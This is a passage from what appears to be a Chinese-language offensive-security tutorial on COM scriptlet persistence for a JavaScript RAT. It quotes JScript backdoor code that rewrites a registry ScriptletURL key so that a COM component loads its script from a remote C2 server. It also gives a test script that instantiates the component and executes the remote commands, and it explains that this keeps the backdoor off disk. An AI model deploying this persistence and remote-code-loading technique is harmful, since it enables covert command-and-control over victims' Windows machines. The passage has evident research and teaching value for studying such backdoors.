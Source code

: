 **注：**

在代理环境下也能正常访问，也支持https访问

0x03 应用1：JSRAT
==============

* * *

### 1、Casey的方法

**(1)Backdoor.sct：**

([https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/Backdoor.sct](https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/Backdoor.sct))

关键代码：

```
function C2Config() {
    //The default is to use the path to a local file... Here, I just rewrite the regkey, and now, the Class definition comes form the interwebs. Woo!
    var WshShell = new ActiveXObject("WScript.Shell");
    var strRegPath = "HKEY_CLASSES_ROOT\\CLSID\\{10001111-0000-0000-0000-00000000ACDC}\\ScriptletURL\\";
    WshShell.RegWrite(strRegPath, "http://127.0.0.1:8080/c2.js", "REG_SZ");
    }
/*
function Cleanup() { }
//Clean your room!
*/ 
function Main() {
    C2Config();
    //Cleanup();    
    }

```

当运行Backdoor.sct注册COM组件时，Backdoor.sct会将组件注册表的键值ScriptletURL设为远程服务器上的地址：http://127.0.0.1:8080/c2.js

这样的好处是Backdoor.sct文件不需要保存在系统上面，同时只要修改服务器上的c2.js的内容就可以执行不同的命令

**(2)c2.js**

([https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/c2.js](https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/c2.js)) 此文件包含要执行的js命令

**(3)BackdoorTest.js**

([https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/BackdoorTest.js](https://github.com/subTee/SCTPersistence/blob/master/JSBackdoor/BackdoorTest.js)) 用于调用已注册的COM组件，内容如下：

```
//调用Backdoor.sct中的C2Config()，将c2.js的路径写入注册表
var x = new ActiveXObject("Component.Backdoor");
x.Main();

//调用c2.js中的代码执行功能
var x = new ActiveXObject("Component.Backdoor");
x.Exec();

```
